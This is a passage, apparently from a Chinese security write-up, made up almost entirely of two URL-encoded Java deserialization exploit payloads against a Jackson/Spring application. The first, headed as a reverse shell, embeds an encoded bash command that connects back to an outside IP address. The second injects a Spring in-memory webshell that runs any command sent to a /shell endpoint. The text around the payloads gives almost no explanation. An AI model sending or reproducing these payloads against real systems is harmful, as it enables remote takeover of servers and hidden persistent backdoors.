UAAAAAAAAAAgIAAUwABl92YWx1ZXEAfgABeHIALWNvbS5mYXN0ZXJ4bWwuamFja3Nvbi5kYXRhYmluZC5ub2RlLlZhbHVlTm9kZQAAAAAAAAABAgAAeHIAMGNvbS5mYXN0ZXJ4bWwuamFja3Nvbi5kYXRhYmluZC5ub2RlLkJhc2VKc29uTm9kZQAAAAAAAAABAgAAeHBzfQAAAAEAHWphdmF4LnhtbC50cmFuc2Zvcm0uVGVtcGxhdGVzeHIAF2phdmEubGFuZy5yZWZsZWN0LlByb3h54SfaIMwQQ8sCAAFMAAFodAAlTGphdmEvbGFuZy9yZWZsZWN0L0ludm9jYXRpb25IYW5kbGVyO3hwc3IANG9yZy5zcHJpbmdmcmFtZXdvcmsuYW9wLmZyYW1ld29yay5KZGtEeW5hbWljQW9wUHJveHlMxLRxDuuW/AIAA1oADWVxdWFsc0RlZmluZWRaAA9oYXNoQ29kZURlZmluZWRMAAdhZHZpc2VkdAAyTG9yZy9zcHJpbmdmcmFtZXdvcmsvYW9wL2ZyYW1ld29yay9BZHZpc2VkU3VwcG9ydDt4cAAAc3IAMG9yZy5zcHJpbmdmcmFtZXdvcmsuYW9wLmZyYW1ld29yay5BZHZpc2VkU3VwcG9ydCTLijz6pMV1AgAGWgALcHJlRmlsdGVyZWRbAAxhZHZpc29yQXJyYXl0ACJbTG9yZy9zcHJpbmdmcmFtZXdvcmsvYW9wL0Fkdmlzb3I7TAATYWR2aXNvckNoYWluRmFjdG9yeXQAN0xvcmcvc3ByaW5nZnJhbWV3b3JrL2FvcC9mcmFtZXdvcmsvQWR2aXNvckNoYWluRmFjdG9yeTtMAAhhZHZpc29yc3EAfgAHTAAKaW50ZXJmYWNlc3EAfgAHTAAMdGFyZ2V0U291cmNldAAmTG9yZy9zcHJpbmdmcmFtZXdvcmsvYW9wL1RhcmdldFNvdXJjZTt4cgAtb3JnLnNwcmluZ2ZyYW1ld29yay5hb3AuZnJhbWV3b3JrLlByb3h5Q29uZmlni0vz5qfg928CAAVaAAtleHBvc2VQcm94eVoABmZyb3plbloABm9wYXF1ZVoACG9wdGltaXplWgAQcHJveHlUYXJnZXRDbGFzc3hwAAAAAAAAdXIAIltMb3JnLnNwcmluZ2ZyYW1ld29yay5hb3AuQWR2aXNvcjvfgw2t0h6EdAIAAHhwAAAAAHNyADxvcmcuc3ByaW5nZnJhbWV3b3JrLmFvcC5mcmFtZXdvcmsuRGVmYXVsdEFkdmlzb3JDaGFpbkZhY3RvcnlU3WQ34k5x9wIAAHhwc3EAfgAYAAAAAHcEAAAAAHhzcQB%2bABgAAAAAdwQAAAAAeHNyADRvcmcuc3ByaW5nZnJhbWV3b3JrLmFvcC50YXJnZXQuU2luZ2xldG9uVGFyZ2V0U291cmNlfVVu9cf4%2broCAAFMAAZ0YXJnZXRxAH4AAXhwc3IAOmNvbS5zdW4ub3JnLmFwYWNoZS54YWxhbi5pbnRlcm5hbC54c2x0Yy50cmF4LlRlbXBsYXRlc0ltcGwJV0/BbqyrMwMABkkADV9pbmRlbnROdW1iZXJJAA5fdHJhbnNsZXRJbmRleFsACl9ieXRlY29kZXN0AANbW0JbAAZfY2xhc3N0ABJbTGphdmEvbGFuZy9DbGFzcztMAAVfbmFtZXEAfgAFTAARX291dHB1dFByb3BlcnRpZXN0ABZMamF2YS91dGlsL1Byb3BlcnRpZXM7eHAAAAAA/////3VyAANbW0JL/RkVZ2fbNwIAAHhwAAAAAXVyAAJbQqzzF/gGCFTgAgAAeHAAAAaCyv66vgAAADQANgoACQAlCgAmACcIACgKACYAKQcAKgcAKwoABgAsBwAtBwAuAQAGPGluaXQ%2bAQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBABdMRXZhaWxfQ2xhc3MvUmV2X1NoZWxsOwEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGRvY3VtZW50AQAtTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007AQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAApFeGNlcHRpb25zBwAvAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGl0ZXJhdG9yAQA1TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjsBAAdoYW5kbGVyAQBBTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAAg8Y2xpbml0PgEAAWUBABVMamF2YS9pby9JT0V4Y2VwdGlvbjsBAA1TdGFja01hcFRhYmxlBwAqAQAKU291cmNlRmlsZQEADlJldl9TaGVsbC5qYXZhDAAKAAsHADAMADEAMgEAYWJhc2ggLWMge2VjaG8sWW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE5USXVNVE0yTGpRMkxqSTRMemM1TnprZ01ENG1NUT09fXx7YmFzZTY0LC1kfXx7YmFzaCwtaX0MADMANAEAE2phdmEvaW8vSU9FeGNlcHRpb24BABpqYXZhL2xhbmcvUnVudGltZUV4Y2VwdGlvbgwACgA1AQAVRXZhaWxfQ2xhc3MvUmV2X1NoZWxsAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsBABgoTGphdmEvbGFuZy9UaHJvd2FibGU7KVYAIQAIAAkAAAAAAAQAAQAKAAsAAQAMAAAALwABAAEAAAAFKrcAAbEAAAACAA0AAAAGAAEAAAALAA4AAAAMAAEAAAAFAA8AEAAAAAEAEQASAAIADAAAAD8AAAADAAAAAbEAAAACAA0AAAAGAAEAAAAcAA4AAAAgAAMAAAABAA8AEAAAAAAAAQATABQAAQAAAAEAFQAWAAIAFwAAAAQAAQAYAAEAEQAZAAIADAAAAEkAAAAEAAAAAbEAAAACAA0AAAAGAAEAAAAhAA4AAAAqAAQAAAABAA8AEAAAAAAAAQATABQAAQAAAAEAGgAbAAIAAAABABwAHQADABcAAAAEAAEAGAAIAB4ACwABAAwAAABmAAMAAQAAABe4AAISA7YABFenAA1LuwAGWSq3AAe/sQABAAAACQAMAAUAAwANAAAAFgAFAAAAEwAJABYADAAUAA0AFQAWABcADgAAAAwAAQANAAkAHwAgAAAAIQAAAAcAAkwHACIJAAEAIwAAAAIAJHB0AAR0ZXN0cHcBAHg%3d":""}}}&classes=org.springframework.ui.ExtendedModelMap
```

反弹 shell

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226193331-de45fcca-d49a-1.png)

Spring 内存马

```plain
obj={"@type":"com.example.jackson.SecurityCheck","safe":false,"treeMap":{"@type":"java.util.HashSet","map":{"rO0ABXNyAC5qYXZheC5tYW5hZ2VtZW50LkJhZEF0dHJpYnV0ZVZhbHVlRXhwRXhjZXB0aW9u1Ofaq2MtRkACAAFMAAN2YWx0ABJMamF2YS9sYW5nL09iamVjdDt4cgATamF2YS5sYW5nLkV4Y2VwdGlvbtD9Hz4aOxzEAgAAeHIAE2phdmEubGFuZy5UaHJvd2FibGXVxjUnOXe4ywMABEwABWNhdXNldAAVTGphdmEvbGFuZy9UaHJvd2FibGU7TAANZGV0YWlsTWVzc2FnZXQAEkxqYXZhL2xhbmcvU3RyaW5nO1sACnN0YWNrVHJhY2V0AB5bTGphdmEvbGFuZy9TdGFja1RyYWNlRWxlbWVudDtMABRzdXBwcmVzc2VkRXhjZXB0aW9uc3QAEExqYXZhL3V0aWwvTGlzdDt4cHEAfgAIcHVyAB5bTGphdmEubGFuZy5TdGFja1RyYWNlRWxlbWVudDsCRio8PP0iOQIAAHhwAAAAAnNyABtqYXZhLmxhbmcuU3RhY2tUcmFjZUVsZW1lbnRhCcWaJjbdhQIABEkACmxpbmVOdW1iZXJMAA5kZWNsYXJpbmdDbGFzc3EAfgAFTAAIZmlsZU5hbWVxAH4ABUwACm1ldGhvZE5hbWVxAH4ABXhwAAAAL3QAE0phY2tzb24uc3RhYmxlLlBvYzB0AAlQb2MwLmphdmF0AApnZXRQYXlsb2Fkc3EAfgALAAAAEXQAGUphY2tzb24uc3RhYmxlLkdldFBheWxvYWR0AA9HZXRQYXlsb2FkLmphdmF0AARtYWluc3IAJmphdmEudXRpbC5Db2xsZWN0aW9ucyRVbm1vZGlmaWFibGVMaXN0%2FA8lMbXsjhACAAFMAARsaXN0cQB%2BAAd4cgAsamF2YS51dGlsLkNvbGxlY3Rpb25zJFVubW9kaWZpYWJsZUNvbGxlY3Rpb24ZQgCAy173HgIAAUwAAWN0ABZMamF2YS91dGlsL0NvbGxlY3Rpb247eHBzcgATamF2YS51dGlsLkFycmF5TGlzdHiB0h2Zx2GdAwABSQAEc2l6ZXhwAAAAAHcEAAAAAHhxAH4AGXhzcgAsY29tLmZhc3RlcnhtbC5qYWNrc29uLmRhdGFiaW5kLm5vZGUuUE9KT05vZGUAAAAAAAAAAgIAAUwABl92YWx1ZXEAfgABeHIALWNvbS5mYXN0ZXJ4bWwuamFja3Nvbi5kYXRhYmluZC5ub2RlLlZhbHVlTm9kZQAAAAAAAAABAgAAeHIAMGNvbS5mYXN0ZXJ4bWwuamFja3Nvbi5kYXRhYmluZC5ub2RlLkJhc2VKc29uTm9kZQAAAAAAAAABAgAAeHBzfQAAAAEAHWphdmF4LnhtbC50cmFuc2Zvcm0uVGVtcGxhdGVzeHIAF2phdmEubGFuZy5yZWZsZWN0LlByb3h54SfaIMwQQ8sCAAFMAAFodAAlTGphdmEvbGFuZy9yZWZsZWN0L0ludm9jYXRpb25IYW5kbGVyO3hwc3IANG9yZy5zcHJpbmdmcmFtZXdvcmsuYW9wLmZyYW1ld29yay5KZGtEeW5hbWljQW9wUHJveHlMxLRxDuuW%2FAIAA1oADWVxdWFsc0RlZmluZWRaAA9oYXNoQ29kZURlZmluZWRMAAdhZHZpc2VkdAAyTG9yZy9zcHJpbmdmcmFtZXdvcmsvYW9wL2ZyYW1ld29yay9BZHZpc2VkU3VwcG9ydDt4cAAAc3IAMG9yZy5zcHJpbmdmcmFtZXdvcmsuYW9wLmZyYW1ld29yay5BZHZpc2VkU3VwcG9ydCTLijz6pMV1AgAGWgALcHJlRmlsdGVyZWRbAAxhZHZpc29yQXJyYXl0ACJbTG9yZy9zcHJpbmdmcmFtZXdvcmsvYW9wL0Fkdmlzb3I7TAATYWR2aXNvckNoYWluRmFjdG9yeXQAN0xvcmcvc3ByaW5nZnJhbWV3b3JrL2FvcC9mcmFtZXdvcmsvQWR2aXNvckNoYWluRmFjdG9yeTtMAAhhZHZpc29yc3EAfgAHTAAKaW50ZXJmYWNlc3EAfgAHTAAMdGFyZ2V0U291cmNldAAmTG9yZy9zcHJpbmdmcmFtZXdvcmsvYW9wL1RhcmdldFNvdXJjZTt4cgAtb3JnLnNwcmluZ2ZyYW1ld29yay5hb3AuZnJhbWV3b3JrLlByb3h5Q29uZmlni0vz5qfg928CAAVaAAtleHBvc2VQcm94eVoABmZyb3plbloABm9wYXF1ZVoACG9wdGltaXplWgAQcHJveHlUYXJnZXRDbGFzc3hwAAAAAAAAdXIAIltMb3JnLnNwcmluZ2ZyYW1ld29yay5hb3AuQWR2aXNvcjvfgw2t0h6EdAIAAHhwAAAAAHNyADxvcmcuc3ByaW5nZnJhbWV3b3JrLmFvcC5mcmFtZXdvcmsuRGVmYXVsdEFkdmlzb3JDaGFpbkZhY3RvcnlU3WQ34k5x9wIAAHhwc3EAfgAYAAAAAHcEAAAAAHhzcQB%2BABgAAAAAdwQAAAAAeHNyADRvcmcuc3ByaW5nZnJhbWV3b3JrLmFvcC50YXJnZXQuU2luZ2xldG9uVGFyZ2V0U291cmNlfVVu9cf4%2BroCAAFMAAZ0YXJnZXRxAH4AAXhwc3IAOmNvbS5zdW4ub3JnLmFwYWNoZS54YWxhbi5pbnRlcm5hbC54c2x0Yy50cmF4LlRlbXBsYXRlc0ltcGwJV0%2FBbqyrMwMABkkADV9pbmRlbnROdW1iZXJJAA5fdHJhbnNsZXRJbmRleFsACl9ieXRlY29kZXN0AANbW0JbAAZfY2xhc3N0ABJbTGphdmEvbGFuZy9DbGFzcztMAAVfbmFtZXEAfgAFTAARX291dHB1dFByb3BlcnRpZXN0ABZMamF2YS91dGlsL1Byb3BlcnRpZXM7eHAAAAAA%2F%2F%2F%2F%2F3VyAANbW0JL%2FRkVZ2fbNwIAAHhwAAAAAXVyAAJbQqzzF%2FgGCFTgAgAAeHAAABagyv66vgAAADQA%2BAoANwB7CAB8CwAqAH0IAH4KAH8AgAoACQCBCACCCgAJAIMHAIQIAIUIAIYIAIcIAIgKAIkAigoAiQCLCgCMAI0HAI4KABEAjwgAkAoAEQCRCgARAJIKABEAkwgAlAsAKwCVCgCWAJcKAJYAmAoAmQCaCACbCwCcAJ0HAJ4HAJ8LAB4AoAoAoQCiCABtCgApAKMKAKQApQoApACmBwCoBwCpCAA%2FBwCqBwCrBwCsCgApAK0HAK4HAK8KAC0AsAgAsQoApwCyCwCzALQLALMAtQoAJwB7CgAfALYHALcHALgBAAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEdGhpcwEAGUxNZW5TaGVsbC9TcHJpbmdNZW1TaGVsbDsBAAVzaGVsbAEAUihMamF2YXgvc2VydmxldC9odHRwL0h0dHBTZXJ2bGV0UmVxdWVzdDtMamF2YXgvc2VydmxldC9odHRwL0h0dHBTZXJ2bGV0UmVzcG9uc2U7KVYBAAdpc0xpbnV4AQABWgEABW9zVHlwAQASTGphdmEvbGFuZy9TdHJpbmc7AQAEY21kcwEAE1tMamF2YS9sYW5nL1N0cmluZzsBAAJpbgEAFUxqYXZhL2lvL0lucHV0U3RyZWFtOwEAAXMBABNMamF2YS91dGlsL1NjYW5uZXI7AQAGb3V0cHV0AQAHcmVxdWVzdAEAJ0xqYXZheC9zZXJ2bGV0L2h0dHAvSHR0cFNlcnZsZXRSZXF1ZXN0OwEACHJlc3BvbnNlAQAoTGphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlc3BvbnNlOwEADVN0YWNrTWFwVGFibGUHAIQHAEYHALkHAI4HAKkHAKsHAKwBAApFeGNlcHRpb25zBwC6AQAJdHJhbnNmb3JtAQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTsBAAhoYW5kbGVycwEAQltMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwcAuwEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAhpdGVyYXRvcgEANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAHaGFuZGxlcgEAQUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAIPGNsaW5pdD4BAAdjb250ZXh0AQA3TG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL2NvbnRleHQvV2ViQXBwbGljYXRpb25Db250ZXh0OwEAFW1hcHBpbmdIYW5kbGVyTWFwcGluZwEAVExvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9zZXJ2bGV0L212Yy9tZXRob2QvYW5ub3RhdGlvbi9SZXF1ZXN0TWFwcGluZ0hhbmRsZXJNYXBwaW5nOwEAC2NvbmZpZ0ZpZWxkAQAZTGphdmEvbGFuZy9yZWZsZWN0L0ZpZWxkOwEABmNvbmZpZwEAFEJ1aWxkZXJDb25maWd1cmF0aW9uAQAMSW5uZXJDbGFzc2VzAQBUTG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL3NlcnZsZXQvbXZjL21ldGhvZC9SZXF1ZXN0TWFwcGluZ0luZm8kQnVpbGRlckNvbmZpZ3VyYXRpb247AQAHbWV0aG9kMgEAGkxqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7AQACbXMBAE5Mb3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvc2VydmxldC9tdmMvY29uZGl0aW9uL1JlcXVlc3RNZXRob2RzUmVxdWVzdENvbmRpdGlvbjsBAARpbmZvAQA%2FTG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL3NlcnZsZXQvbXZjL21ldGhvZC9SZXF1ZXN0TWFwcGluZ0luZm87AQAYc3ByaW5nQ29udHJvbGxlck1lbVNoZWxsBwC3AQAKU291cmNlRmlsZQEAE1NwcmluZ01lbVNoZWxsLmphdmEMADgAOQEAA2NtZAwAvAC9AQAHb3MubmFtZQcAvgwAvwC9DADAAMEBAAN3aW4MAMIAwwEAEGphdmEvbGFuZy9TdHJpbmcBAAJzaAEAAi1jAQAHY21kLmV4ZQEAAi9jBwDEDADFAMYMAMcAyAcAyQwAygDLAQARamF2YS91dGlsL1NjYW5uZXIMADgAzAEAAlxBDADNAM4MAM8A0AwA0QDBAQAADADSANMHANQMANUA1gwA1wA5BwDYDADZANoBADlvcmcuc3ByaW5nZnJhbWV3b3JrLndlYi5zZXJ2bGV0LkRpc3BhdGNoZXJTZXJ2bGV0LkNPTlRFWFQHANsMANwA3QEANW9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL2NvbnRleHQvV2ViQXBwbGljYXRpb25Db250ZXh0AQBSb3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvc2VydmxldC9tdmMvbWV0aG9kL2Fubm90YXRpb24vUmVxdWVzdE1hcHBpbmdIYW5kbGVyTWFwcGluZwwA3gDfBwDgDADhAOIMAOMA5AcA5QwA5gDnDADoAOkHAOoBAFJvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9zZXJ2bGV0L212Yy9tZXRob2QvUmVxdWVzdE1hcHBpbmdJbmZvJEJ1aWxkZXJDb25maWd1cmF0aW9uAQAXTWVuU2hlbGwvU3ByaW5nTWVtU2hlbGwBAA9qYXZhL2xhbmcvQ2xhc3MBACVqYXZheC9zZXJ2bGV0L2h0dHAvSHR0cFNlcnZsZXRSZXF1ZXN0AQAmamF2YXgvc2VydmxldC9odHRwL0h0dHBTZXJ2bGV0UmVzcG9uc2UMAOsA7AEATG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL3NlcnZsZXQvbXZjL2NvbmRpdGlvbi9SZXF1ZXN0TWV0aG9kc1JlcXVlc3RDb25kaXRpb24BADVvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9iaW5kL2Fubm90YXRpb24vUmVxdWVzdE1ldGhvZAwAOADtAQAGL3NoZWxsDADuAPAHAPEMAPIA8wwA9AD1DAD2APcBABNqYXZhL2xhbmcvRXhjZXB0aW9uAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAE2phdmEvaW8vSW5wdXRTdHJlYW0BABNqYXZhL2lvL0lPRXhjZXB0aW9uAQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQAMZ2V0UGFyYW1ldGVyAQAmKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1N0cmluZzsBABBqYXZhL2xhbmcvU3lzdGVtAQALZ2V0UHJvcGVydHkBAAt0b0xvd2VyQ2FzZQEAFCgpTGphdmEvbGFuZy9TdHJpbmc7AQAIY29udGFpbnMBABsoTGphdmEvbGFuZy9DaGFyU2VxdWVuY2U7KVoBABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAoKFtMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwEAEWphdmEvbGFuZy9Qcm9jZXNzAQAOZ2V0SW5wdXRTdHJlYW0BABcoKUxqYXZhL2lvL0lucHV0U3RyZWFtOwEAGChMamF2YS9pby9JbnB1dFN0cmVhbTspVgEADHVzZURlbGltaXRlcgEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvdXRpbC9TY2FubmVyOwEAB2hhc05leHQBAAMoKVoBAARuZXh0AQAJZ2V0V3JpdGVyAQAXKClMamF2YS9pby9QcmludFdyaXRlcjsBABNqYXZhL2lvL1ByaW50V3JpdGVyAQAFd3JpdGUBABUoTGphdmEvbGFuZy9TdHJpbmc7KVYBAAVmbHVzaAEAPG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL2NvbnRleHQvcmVxdWVzdC9SZXF1ZXN0Q29udGV4dEhvbGRlcgEAGGN1cnJlbnRSZXF1ZXN0QXR0cmlidXRlcwEAPSgpTG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL2NvbnRleHQvcmVxdWVzdC9SZXF1ZXN0QXR0cmlidXRlczsBADlvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9jb250ZXh0L3JlcXVlc3QvUmVxdWVzdEF0dHJpYnV0ZXMBAAxnZXRBdHRyaWJ1dGUBACcoTGphdmEvbGFuZy9TdHJpbmc7SSlMamF2YS9sYW5nL09iamVjdDsBAAdnZXRCZWFuAQAlKExqYXZhL2xhbmcvQ2xhc3M7KUxqYXZhL2xhbmcvT2JqZWN0OwEAEGphdmEvbGFuZy9PYmplY3QBAAhnZXRDbGFzcwEAEygpTGphdmEvbGFuZy9DbGFzczsBABBnZXREZWNsYXJlZEZpZWxkAQAtKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL3JlZmxlY3QvRmllbGQ7AQAXamF2YS9sYW5nL3JlZmxlY3QvRmllbGQBAA1zZXRBY2Nlc3NpYmxlAQAEKFopVgEAA2dldAEAJihMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7AQA9b3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvc2VydmxldC9tdmMvbWV0aG9kL1JlcXVlc3RNYXBwaW5nSW5mbwEACWdldE1ldGhvZAEAQChMamF2YS9sYW5nL1N0cmluZztbTGphdmEvbGFuZy9DbGFzczspTGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZDsBADsoW0xvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9iaW5kL2Fubm90YXRpb24vUmVxdWVzdE1ldGhvZDspVgEABXBhdGhzAQAHQnVpbGRlcgEAXChbTGphdmEvbGFuZy9TdHJpbmc7KUxvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9zZXJ2bGV0L212Yy9tZXRob2QvUmVxdWVzdE1hcHBpbmdJbmZvJEJ1aWxkZXI7AQBFb3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvc2VydmxldC9tdmMvbWV0aG9kL1JlcXVlc3RNYXBwaW5nSW5mbyRCdWlsZGVyAQAHb3B0aW9ucwEAnShMb3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvc2VydmxldC9tdmMvbWV0aG9kL1JlcXVlc3RNYXBwaW5nSW5mbyRCdWlsZGVyQ29uZmlndXJhdGlvbjspTG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL3NlcnZsZXQvbXZjL21ldGhvZC9SZXF1ZXN0TWFwcGluZ0luZm8kQnVpbGRlcjsBAAVidWlsZAEAQSgpTG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL3NlcnZsZXQvbXZjL21ldGhvZC9SZXF1ZXN0TWFwcGluZ0luZm87AQAPcmVnaXN0ZXJNYXBwaW5nAQBBKExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7KVYAIQAnADcAAAAAAAUAAQA4ADkAAQA6AAAALwABAAEAAAAFKrcAAbEAAAACADsAAAAGAAEAAAAWADwAAAAMAAEAAAAFAD0APgAAAAEAPwBAAAIAOgAAAYMABQAJAAAAqSsSArkAAwIAxgCgBD4SBLgABToEGQTGABIZBLYABhIHtgAImQAFAz4dmQAfBr0ACVkDEgpTWQQSC1NZBSsSArkAAwIAU6cAHAa9AAlZAxIMU1kEEg1TWQUrEgK5AAMCAFM6BbgADhkFtgAPtgAQOga7ABFZGQa3ABISE7YAFDoHGQe2ABWZAAsZB7YAFqcABRIXOggsuQAYAQAZCLYAGSy5ABgBALYAGrEAAAADADsAAAAyAAwAAAAtAAsALgANAC8AFAAwACYAMQAoADMAYwA0AHAANQCAADYAlAA3AJ8AOACoADoAPAAAAFwACQANAJsAQQBCAAMAFACUAEMARAAEAGMARQBFAEYABQBwADgARwBIAAYAgAAoAEkASgAHAJQAFABLAEQACAAAAKkAPQA%2BAAAAAACpAEwATQABAAAAqQBOAE8AAgBQAAAALgAG%2FQAoAQcAUR9YBwBS%2FgAuBwBSBwBTBwBUQQcAUf8AFQADBwBVBwBWBwBXAAAAWAAAAAQAAQBZAAEAWgBbAAIAOgAAAD8AAAADAAAAAbEAAAACADsAAAAGAAEAAAA%2FADwAAAAgAAMAAAABAD0APgAAAAAAAQBcAF0AAQAAAAEAXgBfAAIAWAAAAAQAAQBgAAEAWgBhAAIAOgAAAEkAAAAEAAAAAbEAAAACADsAAAAGAAEAAABEADwAAAAqAAQAAAABAD0APgAAAAAAAQBcAF0AAQAAAAEAYgBjAAIAAAABAGQAZQADAFgAAAAEAAEAYAAIAGYAOQABADoAAAFLAAYACAAAAIi4ABsSHAO5AB0DAMAAHksqEh%2B5ACACAMAAH0wrtgAhEiK2ACNNLAS2ACQsK7YAJcAAJk4SJxIoBb0AKVkDEipTWQQSK1O2ACw6BLsALVkDvQAutwAvOgUEvQAJWQMSMFO4ADEtuQAyAgC5ADMBADoGuwAnWbcANDoHKxkGGQcZBLYANacABEuxAAEAAACDAIYANgADADsAAABCABAAAAAZAA8AGgAbABsAJQAcACoAHQAsAB4AMwAfAEoAIABXACEAZAAiAGkAIwBwACQAeQAlAIMAKQCGACcAhwAqADwAAABSAAgADwB0AGcAaAAAABsAaABpAGoAAQAlAF4AawBsAAIAMwBQAG0AcAADAEoAOQBxAHIABABXACwAcwB0AAUAcAATAHUAdgAGAHkACgB3AD4ABwBQAAAACQAC9wCGBwB4AAACAHkAAAACAHoAbwAAABIAAgAmAKcAbgAJALMApwDvBglwdAAEdGVzdHB3AQB4":""}}}&classes=org.springframework.ui.ExtendedModelMap
```

